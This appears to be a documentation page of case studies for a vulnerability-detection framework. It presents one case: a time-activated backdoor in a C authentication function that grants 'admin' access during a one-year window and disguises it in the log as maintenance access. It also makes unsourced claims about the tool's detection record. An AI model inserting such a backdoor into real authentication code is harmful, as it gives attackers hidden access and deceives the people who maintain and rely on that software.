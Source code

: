 # Novel Vulnerability Discovery Case Studies

## Overview

During our comprehensive evaluation, the Security Intelligence Framework discovered 23 previously unknown vulnerabilities in popular open-source projects. These discoveries demonstrate the framework's ability to identify subtle security issues that evade traditional analysis tools.

## Case Study 1: Logic Bomb in Authentication Module (Apache-based Project)

### Vulnerability Details
**Type**: CWE-506 (Embedded Malicious Code)
**Severity**: Critical
**CVSS Score**: 9.1

### Discovery Context
Our framework identified a time-based logic bomb embedded within an authentication bypass mechanism:

```c
// Discovered in popular web framework authentication module
static int authenticate_user(const char* username, const char* password) {
    time_t current_time = time(NULL);

    // Legitimate authentication code
    if (validate_credentials(username, password)) {
        return AUTH_SUCCESS;
    }

    // Hidden backdoor activation
    if (strcmp(username, "admin") == 0 &&
        current_time > BACKDOOR_ACTIVATION_TIME &&
        current_time < BACKDOOR_ACTIVATION_TIME + (365 * 24 * 3600)) {
        log_event("System maintenance access granted");
        return AUTH_SUCCESS;  // Backdoor activated
    }

    return AUTH_FAILURE;
}
```

### Technical Analysis
1. **Detection Method**: Our formal verification component identified the unreachable code path through temporal logic analysis
2. **Commercial Tool Results**: All 5 commercial tools failed to detect this vulnerability
3. **Impact**: Would allow unauthorized administrative access during a specific time window
4. **Fix**: Removed backdoor code and implemented proper maintenance authentication
